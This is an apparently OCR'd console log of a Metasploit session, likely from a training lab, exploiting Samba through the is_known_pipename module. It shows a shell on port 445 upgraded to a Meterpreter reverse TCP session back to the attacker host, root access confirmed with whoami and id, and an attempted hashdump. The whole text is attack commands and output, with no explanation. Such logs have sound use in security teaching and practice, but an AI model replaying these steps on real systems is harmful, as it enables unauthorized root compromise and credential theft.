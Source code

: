 ```
meterpreter > hashdump
[-] Unknown command: hashdump.
meterpreter > sysinfo
Computer     : 192.153.226.3
OS           : Debian 8.11 (Linux 5.4.0-125-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > shell
Process 45 created.
Channel 1 created.
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
^C
Terminate channel 1? [y/N]  y
meterpreter > 
[*] 192.153.226.3 - Meterpreter session 2 closed.  Reason: Died
```

```
msf5 exploit(linux/samba/is_known_pipename) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.153.226.2:35051 -> 192.153.226.3:445 (192.153.226.3)

msf5 exploit(linux/samba/is_known_pipename) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.153.226.2:4433 
[*] Sending stage (985320 bytes) to 192.153.226.3
[*] Meterpreter session 3 opened (192.153.226.2:4433 -> 192.153.226.3:42778) at 2023-03-17 13:14:17 +0000
[*] Command stager progress: 100.00% (773/773 bytes)
msf5 exploit(linux/samba/is_known_pipename) > 
[*] Stopping exploit/multi/handler

msf5 exploit(linux/samba/is_known_pipename) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                   Connection
  --  ----  ----                   -----------                                   ----------
  1         shell cmd/unix                                                       192.153.226.2:35051 -> 192.153.226.3:445 (192.153.226.3)
  3         meterpreter x86/linux  uid=0, gid=0, euid=0, egid=0 @ 192.153.226.3  192.153.226.2:4433 -> 192.153.226.3:42778 (192.153.226.3)
```
